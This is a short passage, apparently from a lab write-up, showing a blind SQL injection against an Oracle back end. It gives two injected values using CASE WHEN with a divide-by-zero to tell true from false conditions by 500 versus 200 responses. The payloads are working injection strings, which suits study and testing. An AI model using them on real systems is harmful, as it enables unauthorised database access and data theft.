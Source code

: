 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
9HCLCYU9VeK78knn'+AND+(SELECT+CASE+WHEN+(1=1)+THEN+TO_CHAR(1/0)+ELSE+'a'+END+FROM+dual)='a;
9HCLCYU9VeK78knn'+AND+(SELECT+CASE+WHEN+(1=2)+THEN+TO_CHAR(1/0)+ELSE+'a'+END+FROM+dual)='a;
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

With 1=1 we get a 500 error code:

![img](media/21503552b952b5dc825b88772b610534.png)

With 1=2 we get a 200 code:

![img](media/e5795ab904173be2d77fa133b83935dc.png)
